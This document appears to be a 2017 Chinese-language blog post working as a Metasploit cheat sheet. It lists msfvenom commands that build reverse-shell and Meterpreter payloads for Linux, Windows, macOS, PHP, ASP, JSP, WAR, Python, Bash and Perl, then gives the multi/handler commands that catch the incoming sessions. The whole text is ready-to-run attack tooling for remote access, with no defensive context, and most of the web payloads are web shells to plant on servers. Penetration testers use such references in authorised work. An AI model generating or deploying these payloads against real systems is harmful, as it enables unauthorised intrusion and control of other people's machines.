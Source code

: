 ```yaml
---
title: msf下生成各种payload的命令
date: 2017-09-12 14:30:54
tags:
	- 渗透
	- metasploit
categories: 渗透
---
```


    List payloads
    msfvenom -l
    
#### Binaries:

##### Linux： 
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

##### Windows
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

##### Mac
    msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

#### Web Payloads
    
##### PHP
    msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php

##### ASP
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

##### JSP
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

##### WAR
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

#### Scripting Paylaods

##### Python 
    msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

##### Bash
    msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

##### Perl
    msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

#### Handlers

``` bash
use exploit/multi/handler

set PAYLOAD <Payload name>

set LHOST <LHOST value>

set LPORT <LPORT value>

set ExitOnSession false

exploit -j -z
```
